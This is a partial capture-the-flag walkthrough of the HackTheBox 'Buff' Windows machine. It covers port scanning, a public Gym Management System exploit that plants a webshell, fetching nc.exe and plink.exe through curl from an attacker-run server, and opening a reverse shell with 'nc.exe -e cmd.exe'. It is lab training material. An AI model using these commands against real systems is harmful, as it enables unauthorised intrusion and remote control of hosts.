 ```yaml
---
title: "HackTheBox — Buff"
date: 2020-10-27 23:59:00 +0530
categories: [HackTheBox,Windows Machines]
tags: [exploit-db]
image: /assets/img/Posts/Buff.png
---
```


> Buff windows machine by HackTheBox.com partial guide.

## Recon

Port scan:

``` shell

$ sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.198 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-10-28 03:05:03 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 8080/tcp on 10.10.10.198                                  
Discovered open port 7680/tcp on 10.10.10.198 

```

Nmap over the ports found open:

``` shell
$ nmap -sC -sV -Pn -p8080,7680 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 11:10 AWST
Nmap scan report for 10.10.10.198
Host is up (0.26s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.61 seconds

```


## Gym Management System

Locate exploit on `exploit-db.com` for GMS v 1.0. Download python script and execute as per instructions.

``` shell
python kamehameha.py http://buff:8080/

            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                                          
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 


C:\xampp\htdocs\gym\upload> dir
�PNG
▒
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

28/10/2020  04:25    <DIR>          .
28/10/2020  04:25    <DIR>          ..
28/10/2020  04:25                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   9,836,687,360 bytes free


```

Ok now we need to upload some files for reverse TCP shell.


``` shell

sudo python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...

```

Lets upload some tools and enumerate

``` shell

http://buff:8080/upload/kamehameha.php?telepathy=whoami
http://buff:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.26:80/nc.exe
http://buff:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.26:80/plink.exe

```

Files uploaded:

``` shell

$ sudo python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.198 - - [28/Oct/2020 12:26:26] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.198 - - [28/Oct/2020 12:26:39] "GET /plink.exe HTTP/1.1" 200 -

```

Make a listener to catch the shell `nc -lvvnp 1337`

Then we want to make the shell `buff:8080/upload/kamehameha.php?telepathy=nc.exe -e cmd.exe 10.10.14.26 1337`

And bingo:

``` shell

# nc -lvvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.198] 49776
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun

```








